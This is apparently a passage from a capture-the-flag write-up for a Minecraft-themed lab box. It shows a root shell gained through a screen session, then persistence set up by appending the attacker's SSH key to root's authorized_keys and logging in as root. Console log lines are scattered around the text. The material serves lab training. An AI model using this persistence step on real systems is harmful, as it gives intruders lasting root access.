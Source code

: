 ```jsx
[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.

[REDACTED] - MORE

> ^A+C

# whoami
root
# id
uid=0(root) gid=1002(cybercrafted) groups=1002(cybercrafted)
# pwd
/opt/minecraft/cybercrafted
# cd root
# ls -lsa .ssh
4 drwx------ 2 root root 4096 Jun 27  2021 .
4 drwx------ 6 root root 4096 Oct 15  2021 ..
4 -rw------- 1 root root  399 Jun 27  2021 authorized_keys

# 
```

`cat /root/.ssh/id_rsa.pub`

```jsx
ssh-rsa [REDACTED] - SECRET root@kali
```

```jsx
# echo 'ssh-rsa [REDACTED] - SECRET root@kali' >> .ssh/authorized_keys
# 
```

`ssh root@cybercrafted.thm -p 22`

```jsx
root@cybercrafted:~# whoami
root
root@cybercrafted:~# 
```

# Appendix

## Screen

<aside>
💡

/usr/bin/screen is the executable for the GNU Screen utility on Unix-like operating systems. GNU Screen is a terminal multiplexer that allows users to manage multiple terminal sessions from a single window. It's particularly useful for managing long-running processes or working remotely, as it lets you detach and reattach terminal sessions without disrupting the processes running in them.

</aside>

[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server